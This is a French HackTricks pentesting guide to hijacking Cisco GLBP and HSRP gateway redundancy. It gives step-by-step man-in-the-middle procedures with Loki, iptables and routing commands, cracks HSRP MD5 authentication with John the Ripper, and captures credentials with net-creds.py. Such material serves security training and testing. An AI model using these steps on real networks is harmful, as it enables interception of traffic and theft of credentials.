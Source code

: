 # Attaques GLBP & HSRP

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Aperçu du Détournement FHRP

### Informations sur FHRP
FHRP est conçu pour fournir une robustesse réseau en fusionnant plusieurs routeurs en une seule unité virtuelle, améliorant ainsi la répartition de la charge et la tolérance aux pannes. Cisco Systems a introduit des protocoles importants dans cette suite, tels que GLBP et HSRP.

### Informations sur le Protocole GLBP
La création de Cisco, GLBP, fonctionne sur la pile TCP/IP, utilisant UDP sur le port 3222 pour la communication. Les routeurs dans un groupe GLBP échangent des paquets "hello" à des intervalles de 3 secondes. Si un routeur ne parvient pas à envoyer ces paquets pendant 10 secondes, il est considéré comme hors ligne. Cependant, ces minuteries ne sont pas fixes et peuvent être modifiées.

### Opérations et Répartition de la Charge GLBP
GLBP se distingue en permettant la répartition de la charge entre les routeurs en utilisant une seule adresse IP virtuelle couplée à plusieurs adresses MAC virtuelles. Dans un groupe GLBP, chaque routeur participe à la transmission des paquets. Contrairement à HSRP/VRRP, GLBP offre un véritable équilibrage de charge grâce à plusieurs mécanismes :

- **Équilibrage de Charge Dépendant de l'Hôte :** Maintient l'attribution d'adresse MAC AVF cohérente à un hôte, essentiel pour des configurations NAT stables.
- **Équilibrage de Charge Round-Robin :** L'approche par défaut, alternant l'attribution d'adresse MAC AVF parmi les hôtes demandeurs.
- **Équilibrage de Charge Pondéré Round-Robin :** Répartit la charge en fonction de métriques "Poids" prédéfinies.

### Composants Clés et Terminologies dans GLBP
- **AVG (Passerelle Virtuelle Active) :** Le routeur principal, responsable de l'attribution des adresses MAC aux routeurs pairs.
- **AVF (Transmetteur Virtuel Actif) :** Un routeur désigné pour gérer le trafic réseau.
- **Priorité GLBP :** Une métrique qui détermine l'AVG, commençant par défaut à 100 et variant entre 1 et 255.
- **Poids GLBP :** Reflète la charge actuelle sur un routeur, ajustable manuellement ou via le Suivi d'Objets.
- **Adresse IP Virtuelle GLBP :** Sert de passerelle par défaut du réseau pour tous les appareils connectés.

Pour les interactions, GLBP utilise l'adresse multicast réservée 224.0.0.102 et le port UDP 3222. Les routeurs transmettent des paquets "hello" à des intervalles de 3 secondes et sont considérés comme non opérationnels si un paquet est manqué pendant une durée de 10 secondes.

### Mécanisme d'Attaque GLBP
Un attaquant peut devenir le routeur principal en envoyant un paquet GLBP avec la valeur de priorité la plus élevée (255). Cela peut entraîner des attaques de DoS ou de l'homme du milieu, permettant l'interception ou la redirection du trafic.

### Exécution d'une Attaque GLBP avec Loki
[Loki](https://github.com/raizo62/loki_on_kali) peut effectuer une attaque GLBP en injectant un paquet avec une priorité et un poids définis à 255. Les étapes préalables à l'attaque consistent à recueillir des informations telles que l'adresse IP virtuelle, la présence d'authentification et les valeurs de priorité du routeur en utilisant des outils comme Wireshark.

Étapes de l'Attaque :
1. Passer en mode promiscuité et activer le transfert IP.
2. Identifier le routeur cible et récupérer son IP.
3. Générer une ARP Gratuite.
4. Injecter un paquet GLBP malveillant, en se faisant passer pour l'AVG.
5. Attribuer une adresse IP secondaire à l'interface réseau de l'attaquant, reflétant l'adresse IP virtuelle GLBP.
6. Mettre en place SNAT pour une visibilité totale du trafic.
7. Ajuster le routage pour garantir un accès continu à Internet via le routeur AVG d'origine.

En suivant ces étapes, l'attaquant se positionne en tant que "homme du milieu", capable d'intercepter et d'analyser le trafic réseau, y compris les données non chiffrées ou sensibles.

Pour la démonstration, voici les extraits de commandes requis :
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explication passive du détournement HSRP avec détails de commande

#### Aperçu du HSRP (Protocole de redondance/de routeur en veille active)
HSRP est un protocole propriétaire de Cisco conçu pour la redondance de passerelle réseau. Il permet la configuration de plusieurs routeurs physiques en une seule unité logique avec une adresse IP partagée. Cette unité logique est gérée par un routeur principal responsable de la direction du trafic. Contrairement à GLBP, qui utilise des métriques comme la priorité et le poids pour l'équilibrage de charge, HSRP repose sur un seul routeur actif pour la gestion du trafic.

#### Rôles et terminologie dans HSRP
- **Routeur actif HSRP**: Le dispositif agissant en tant que passerelle, gérant le flux de trafic.
- **Routeur en veille HSRP**: Un routeur de secours, prêt à prendre le relais si le routeur actif échoue.
- **Groupe HSRP**: Un ensemble de routeurs collaborant pour former un seul routeur virtuel résilient.
- **Adresse MAC HSRP**: Une adresse MAC virtuelle attribuée au routeur logique dans la configuration HSRP.
- **Adresse IP virtuelle HSRP**: L'adresse IP virtuelle du groupe HSRP, agissant en tant que passerelle par défaut pour les appareils connectés.

#### Versions de HSRP
HSRP existe en deux versions, HSRPv1 et HSRPv2, différant principalement en capacité de groupe, utilisation d'IP multicast et structure d'adresse MAC virtuelle. Le protocole utilise des adresses IP multicast spécifiques pour l'échange d'informations de service, avec des paquets Hello envoyés toutes les 3 secondes. Un routeur est considéré comme inactif s'il ne reçoit aucun paquet dans un intervalle de 10 secondes.

#### Mécanisme d'attaque HSRP
Les attaques HSRP impliquent de prendre de force le rôle du Routeur actif en injectant une valeur de priorité maximale. Cela peut entraîner une attaque de l'Homme du Milieu (MITM). Les étapes essentielles préalables à l'attaque incluent la collecte de données sur la configuration HSRP, qui peut être effectuée en utilisant Wireshark pour l'analyse du trafic.

#### Étapes pour contourner l'authentification HSRP
1. Enregistrer le trafic réseau contenant des données HSRP dans un fichier .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraire les hachages MD5 du fichier .pcap en utilisant hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Casser les hachages MD5 en utilisant John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Exécution de l'injection HSRP avec Loki**

1. Lancer Loki pour identifier les annonces HSRP.
2. Définir l'interface réseau en mode promiscuité et activer le transfert IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utiliser Loki pour cibler le routeur spécifique, entrer le mot de passe HSRP cassé et effectuer les configurations nécessaires pour se faire passer pour le Routeur actif.
4. Après avoir obtenu le rôle de Routeur actif, configurer votre interface réseau et les tables IP pour intercepter le trafic légitime.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifier la table de routage pour router le trafic à travers l'ancien Routeur actif.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utiliser net-creds.py ou un utilitaire similaire pour capturer les informations d'identification à partir du trafic intercepté.
```shell
sudo python2 net-creds.py -i eth0
```

L'exécution de ces étapes place l'attaquant dans une position pour intercepter et manipuler le trafic, similaire à la procédure de détournement GLBP. Cela met en évidence la vulnérabilité des protocoles de redondance comme HSRP et la nécessité de mesures de sécurité robustes.


## Références
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez** 💬 le [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

